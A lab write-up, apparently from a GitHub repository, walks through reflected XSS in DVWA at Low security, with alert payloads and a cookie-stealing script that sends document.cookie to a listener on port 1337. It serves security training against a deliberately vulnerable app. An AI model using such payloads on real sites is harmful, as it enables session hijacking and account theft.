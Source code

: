 # 🟢 Reflected XSS – Low Security (DVWA)

At the **Low Security** level, DVWA provides no protection against XSS.  
This makes it straightforward to inject and execute malicious JavaScript.

---

## 🔎 What’s Happening?

- The web application **takes user input** (e.g., Name field) and **reflects it directly back** into the HTML response without sanitization or encoding.  
- The HTTP header explicitly confirms that XSS protection is disabled:
```

X-XSS-Protection: 0

```
- Since the input is echoed unsafely, **any JavaScript code inserted will run immediately** in the browser.

---

## 🛠️ Step-by-Step Exploitation

1. **Navigate to Reflected XSS (Low)** in DVWA.  
2. Enter a normal name like:
```

Ammad

```
→ The page reflects it back as:
```

Hello Ammad

````
This shows the input is inserted directly into the page.

3. **Inject a malicious script** instead of plain text:
```html
<script>alert('You have been hacked')</script>
````

4. Submit the form.
   → The script executes immediately, showing a JavaScript alert popup. ✅

---

## 🎯 Proof of Concept

### Payload:

```html
<script>alert('XSS Test')</script>
```

### Result:

A popup box appears with the message **“XSS Test”**, proving that arbitrary JavaScript is executed.

---

## 🍪 Example – Stealing Cookies

Instead of just an alert, an attacker could steal session cookies:

```html
<script>
  window.location='http://127.0.0.1:1337/?cookie='+document.cookie
</script>
```

1. Start a simple server to catch the cookie:

   ```bash
   python3 -m http.server 1337
   ```
2. When the victim clicks the crafted link or submits the form,
   their browser sends the cookie to the attacker’s server.

---

## ✅ Key Takeaway

* At **Low Security**, DVWA does not filter or encode input at all.
* Any JavaScript payload is executed immediately.
* This demonstrates how dangerous it is when applications **reflect user input without validation**.

---
